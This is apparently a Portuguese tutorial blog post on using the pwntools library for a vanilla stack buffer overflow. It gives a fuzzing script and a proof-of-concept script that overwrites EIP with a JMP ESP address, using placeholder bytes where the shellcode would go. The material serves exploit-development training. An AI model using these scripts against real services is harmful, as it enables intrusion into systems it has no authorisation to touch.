




USANDO A PWNTOOLS PARA BINARY EXPLOITATION
----------------------------------------------------------------
offensive think :: artigo técnico em formato zine / nfo
----------------------------------------------------------------
titulo : Usando a pwntools para Binary Exploitation
autor : offensive think
data : Tue, Nov 3, 2020
tags : bof, osce, binary-exploitation
----------------------------------------------------------------
--> https://www.offensivethink.com/posts/binary-exploitation-with-pwntools.html <--
---[ INDEX ]------------------------------------------------------------
0 - COMEÇANDO QUASE QUE DO COMEÇO
_Primeiramente, desculpem os "estrangeirismos aportuguesados" como atachar, dentre outros. Creio que na área, ajuda mais que atrapalha. _
---[ 0x00 - COMEÇANDO QUASE QUE DO COMEÇO ]-----------------------------
_Esse não é uma explicação de como se constrói todo um exploit e também não aborda todos os porquês de seguirmos o passo a passo abaixo. É apenas uma "dica" na utilização da biblioteca pwntools na construção de exploits para exploração de buffer overflow. Estamos aqui tratando de um Buffer Overflow simples do tipo Vanilla._
Podemos usar a pwntools para nos ajudar em alguns pontos, como por exemplo:
1. Gerar o pattern e descobrir o offset onde na pilha o valor que vai parar o EIP é sobreescrito sem precisar recorrer ao msf-pattern_* do metasploit
2. Não precisar inverter bytes para respeitar o little endian
3. Abstrair a questão de como o python3 tratam as strings diferentemente do python2, o que causa vários problemas na hora do exploitation.
A pwntools (https://github.com/Gallopsled/pwntools) possui muitas e muitas funções, até mesmo para fechar conexão abstraindo a biblioteca socket. Isso ficará, quem sabe, para um próximo artigo.
Esta proposição não visa substituir a forma didática de aprender sobre o processo usando A's, B's e C'S, entendendo bem como os valores vão parar na pilha, mas sim avançar um pouco no processo.
Bem, a pwntools tem duas função que nos ajudarão: cyclic(<lenght>) , que serve para gerar padrões de tamanho determinado e cyclic_find(b'<padrão encontrado>'), que serve para determinar o offset que desejamos. *Observe o b antes da string*, pois a função espera uma sequência de bytes.

observe que o retorno da funçao cyclic é um byte array, em conformidade com o esperado para binary exploitation!
Bem, no debuger, quando o fuzzer surtir efeito e "travar" a aplicação, o que veremos escrito no EIP é um valor hexadecimal e não o padrão propriamente dito, ou seja, a sua representação hexadecimal. Poderíamos "pegar" o valor hexa que está em EIP, transformar em caracteres ascii e invertê-los (lembra do little endian?), mas a idéia é facilitar. Neste caso, podemos usar a função pack(<end_hexa>), para obter o padrão desejado.

*Observe que*, usando a pwntools, *não precisaremos importar a biblioteca struct, *ela já possue sua função pack. Basta pegar o hexa que tem no EIP, colocar dentro da função pack, passar o resultado para o cyclic_find e Voilá, offset definido!
E como ficaria isso no código, propriamente dito ?
*FUZZING*
Desta forma passaremos já o padrão em incrementos de 50 em 50 bytes.
#!/usr/bin/env python3
import sys, socket
from pwn import *
host="192.168.1.2"
port=8080
#Passo 1 - Fuzzing!
def doFuzz():
for i in range(1,100):
buffer=b"CMD " + cyclic(50*i) # de 50 em 50 bytes!
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,port))
s.sendall(buffer)
print("[+] Sending %d bytes - %s \n" % ( (50*i), buffer ))
s.close()
doFuzz()
Após o fuzzing podemos já capturar o valor que está em EIP, que vamos usar para definir o offset que precisamos,

e o valor do endereço de um jmp esp, através do mona.py, que usaremos para direcionar para o EIP.

Vamos ao POC, já que temos tudo, offset e endereço do JMP ESP.
*POC - Offset do EIP definido + Endereço do JMP ESP definido.*
#!/usr/bin/env python3
import sys, socket
from pwn import *
host="192.168.1.2"
port=8080
def doPOC():
totalBufferLenght = 700 # valor desejado do buffer total
# addressFoundinEIP
# Valor obtido do reg EIP atraves do debug
# quando executado o Fuzzing!
# Observe que é um padrão em Hexa
# print("\x61\x61\x6C\x62") = aalb
addressFoundinEIP=0x61616C62
offsetEIP= cyclic_find(pack(addressFoundinEIP))
# Construção do que vamos enviar para o binário
# 1. Bytes iniciais quaisquer, neste caso A's, até o offset desejado
bufferInicial= ("CMD " + "A" * offsetEIP).encode('latin-1')
# 2. Valor que desejamos que vá parar em EIP para que a CPU execute
# um JMP ESP, que será onde estará posicionado nosso ShellCode.
# Endereço de um JMP ESP desejado obtido no immunity debug com o comando
# !mona jmp -r ESP -n
adressToJMPESP = pack(0x7274146F)
# 3. Shellcode propriamente dito.
# Neste ponto, para validação, apenas uma quantidade de C's igual a
# Tamanho total do Buffer que definimos como aceitável para: extrapolar
# o buffer da aplicação escrevendo A's + escrever o endereço que desejamos
# que vá para o EIP + nosso shell code. Neste caso, estimamos um buffer total
# de 700 bytes. Poderia ser mais, poderia ser menos, mas esse foi aceitável.
lengthShellCode = totalBufferLenght - len(bufferInicial) - len(adressToJMPESP)
shellcode= b'C'*lengthShellCode # observe o b para indicar byte array!
buffer=bufferInicial+adressToJMPESP+shellcode
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,port))
s.sendall(buffer)
print("[+] Sending Exploit %s" % buffer )
s.close()
doPoc()
Pronto, agora é continuar em achar os null bytes, gerar o shell code, explorar e ser feliz!
Espero que ajude.
---[ EOF ]--------------------------------------------------------------
offensive think / 2026